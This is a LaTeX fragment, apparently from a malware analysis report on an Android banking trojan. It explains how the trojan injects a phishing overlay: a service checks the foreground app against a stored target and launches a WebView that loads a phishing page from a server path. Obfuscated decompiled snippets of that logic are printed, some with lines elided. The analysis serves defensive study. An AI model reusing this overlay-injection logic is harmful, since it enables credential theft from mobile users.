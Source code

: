 \documentclass[10pt,titlepage]{article}
\begin{document}
If an Application was found matching the value stored in \textit{SharedPreferences} (see chapter \ref{datastructure}) the \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} Activity will be launched. (see Listing \ref{serviceinjectionfddo})

\begin{lstlisting}[label=serviceinjectionfddo,caption=The function \textit{naqsl.ebxcb.exu.ServiceInjections.fddo()} verifies if current foreground task matches to a value stored in \textit{SharedPreferences} \textbf{name} tag and launches the Activity \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} if neccessary.,frame=tb]
public void fddo() {
        [...]
        if (!this.f584fddo.fddo(this.f419for, 
                                  Cint.m430int(Cint.m430int("Ym1GdFpRPT0=" /*name*/)))
                                  .contains(Cint.m430int(
                                  Cint.m430int("ZEhKMVpRPT0=" /*true*/)))) {
           Intent putExtra = new Intent(this, ActivityInjection.class)
                     .putExtra(Cint.m430int(Cint.m430int("YzNSeQ==")), str3); // str
\end{lstlisting}

The \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} implements the \cite{onStart()} function with loads a WebView showing a URL constructed from settings and hardcoded values. This allowes the malware to update potential UI changes directly via Web resources instead of update the malware App on the client side. Also it's easier to apply attacks to new victims. (see Listing \ref{activityinjectiononstart})
\newpage
\begin{lstlisting}[label=activityinjectiononstart,caption=The Activity \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} shows a webview which allows to show dynamic content for phishing credentials or other sensitive information.,frame=tb]
public void onStart() {
        super.onStart();
        [...]
        if (!stringExtra.equals(str) || !stringExtra.equals(null)) {
            [...]
            sb.append("/fafa.php?f=");
            sb.append(stringExtra);
            sb.append("&p=");
            sb.append(this.ifdf.fddo((Context) this));
            String str2 = "|";
            sb.append(str2);
            sb.append(country.toLowerCase());
            webView.loadUrl(sb.toString());
            setContentView(webView);
            [...]
        }
    }
\end{lstlisting}


Also the \textit{naqsl.ebxcb.exu.ServiceAccessibility} (see more in chapter \ref{keylogger}) service is able to perform an Activity Injection attack if it finds an target App. (see Listing \ref{serviceaccessibilityfddorun})
\end{document}
